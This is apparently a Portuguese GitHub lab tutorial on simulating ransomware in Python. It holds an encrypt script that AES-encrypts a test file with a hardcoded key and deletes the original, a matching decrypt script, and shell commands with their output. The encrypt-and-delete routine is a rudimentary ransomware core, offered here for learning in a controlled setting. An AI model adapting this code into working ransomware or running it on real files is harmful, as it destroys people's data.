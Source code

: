 ## Entendendo um Ransomware na prática com Python

**Ferramentas:**

- Ubuntu Linux
- Python 3

1. Crie um diretório para trabalhar em um ambiente controlado:

``` 
~/workspace$ mkdir encript-decript
~/workspace$ ls
```
> encript-decript

```
~/workspace$ cd encript-decript
```

2. Criando os arquivos:

```
~/workspace/encript-decript$ echo "Arquivo de texto não encriptado" > teste.txt
~/workspace/encript-decript$ nano encript.py
```

> código do arquivo encript.py:

```
import os
import pyaes

# Script para simular um Ransomware

# Função principal para encriptar o arquivo de teste.txt
# Inclui no laboratório um tratamento de erro try-except, mas em um cenário real não estariam
def encrypt_file(input_filename, output_filename, key):
    try:
        with open(input_filename, "rb") as original_file:
            aes = pyaes.AESModeOfOperationCTR(key)
            with open(output_filename, "wb") as encrypted_file:
                while True:
                    chunk = original_file.read(1024)  # Lê o arquivo em blocos de 1 KB
                    if not chunk:
                        break
                    encrypted_chunk = aes.encrypt(chunk)
                    encrypted_file.write(encrypted_chunk)
        
        # Remover o arquivo original após a criptografia bem-sucedida
        os.remove(input_filename)
        
        print(f"Arquivo '{input_filename}' criptografado com sucesso em '{output_filename}'")
    
    except Exception as e:
        print(f"Erro ao criptografar o arquivo: {str(e)}")

# Como é um laboratório, inclui a estrutura if __name__=="__main__"
# Dessa forma o código só será executado diretamente.

if __name__ == "__main__":
    original_file_name = "teste.txt"
    encrypted_file_name = original_file_name + ".ransomwaretroll"
    encryption_key = b"testeransomwares"

    encrypt_file(original_file_name, encrypted_file_name, encryption_key) # chamada da função aqui
```
>
```
~/workspace/encript-decript$ nano decript.py
```

> código do arquivo decript.py:

```
import os
import pyaes

# Script para simular o resgate de um arquivo encriptado por um Ransomware

# Função principal para descriptografar o arquivo de teste.txt
# Inclui no laboratório um tratamento de erro try-except, mas em um cenário real não estariam

def decrypt_file(input_filename, output_filename, key):
    try:
        with open(input_filename, "rb") as encrypted_file:
            aes = pyaes.AESModeOfOperationCTR(key)
            with open(output_filename, "wb") as decrypted_file:
                while True:
                    chunk = encrypted_file.read(1024)  # Lê o arquivo criptografado em blocos de 1 KB
                    if not chunk:
                        break
                    decrypted_chunk = aes.decrypt(chunk)
                    decrypted_file.write(decrypted_chunk)
        
        # Remover o arquivo criptografado após a descriptografia bem-sucedida
        os.remove(input_filename)
        
        print(f"Arquivo '{input_filename}' descriptografado com sucesso em '{output_filename}'")
    
    except Exception as e:
        print(f"Erro ao descriptografar o arquivo: {str(e)}")

# Como é um laboratório, inclui a estrutura if __name__=="__main__"
# Dessa forma o código só será executado diretamente.

if __name__ == "__main__":
    encrypted_file_name = "teste.txt.ransomwaretroll"
    decrypted_file_name = "teste.txt"
    decryption_key = b"testeransomwares"

    decrypt_file(encrypted_file_name, decrypted_file_name, decryption_key) # chamada da função aqui
```

3. Instalando bibilioteca **pyaes**:

```
~/workspace/encript-decript$ pip install pyaes
```
> Saída:

```
Defaulting to user installation because normal site-packages is not writeable
Collecting pyaes
  Downloading pyaes-1.6.1.tar.gz (28 kB)
  Preparing metadata (setup.py) ... done
Building wheels for collected packages: pyaes
  Building wheel for pyaes (setup.py) ... done
  Created wheel for pyaes: filename=pyaes-1.6.1-py3-none-any.whl size=26363 sha256=4abc28ef17fd9d7040d63936f1c746ab30653a3c0b62c643b69bc5cc6308f0f6
  Stored in directory: /home/meuUsuario/.cache/pip/wheels/d6/84/5f/ea6aef85a93c7e1922486369874f4740a5642d261e09c59140
Successfully built pyaes
Installing collected packages: pyaes
Successfully installed pyaes-1.6.1
```

4. Executando os scripts:

``` 
~/workspace/encript-decript$ ls
```
> Saída:
```
decript.py  encript.py  teste.txt
```
>
```
~/workspace/encript-decript$ python3 encript.py
```
> Saída:
```
Arquivo 'teste.txt' criptografado com sucesso em 'teste.txt.ransomwaretroll'
```
>
```
~/workspace/encript-decript$ ls
```
> Saída:
```
decript.py  encript.py  teste.txt.ransomwaretroll
```
>
```
~/workspace/encript-decript$ cat teste.txt.ransomwaretroll 
```
> Saída:
```
i�'|&`,N�x.Pw���/��,��i��
```
>
```
~/workspace/encript-decript$ python3 decript.py
```
> Saída:
```
Arquivo 'teste.txt.ransomwaretroll' descriptografado com sucesso em 'teste.txt'
```
>
```
~/workspace/encript-decript$ ls
```
> Saída:
```
decript.py  encript.py  teste.txt
```

## Redes Socias

[![PerfilDIO](https://img.shields.io/badge/DIO-0077B5?style=for-the-badge&logo=dio&logoColor=white)](https://web.dio.me/users/marcelo_soares92)
[![GitLab](https://img.shields.io/badge/GitLab-000?style=for-the-badge&logo=gitlab&logoColor=E94D5F)](https://gitlab.com/Mdsoare/)
[![GitHub](https://img.shields.io/badge/GitHub-000?style=for-the-badge&logo=github&logoColor=30A3DC)](https://github.com/Mdsoare/)
[![LinkedIn](https://img.shields.io/badge/LinkedIn-0077B5?style=for-the-badge&logo=linkedin&logoColor=white)](https://www.linkedin.com/in/marcelodsoares/) 

<table>
  <tr>
    <td>
      <img width="80px" align="center" src="https://avatars.githubusercontent.com/Mdsoare"/>
    </td>
    <td align="left">
      <a href="https://github.com/Mdsoare">
        <span><b>Marcelo Soares</b></span>
      </a>
      <br>
      <span>Analista de Sistemas</span>
    </td>
  </tr>
</table>

##
<div align="center">Disponibilizado por <a href="https://github.com/Mdsoare">🕶 Marcelo Soares ®</a>.</div>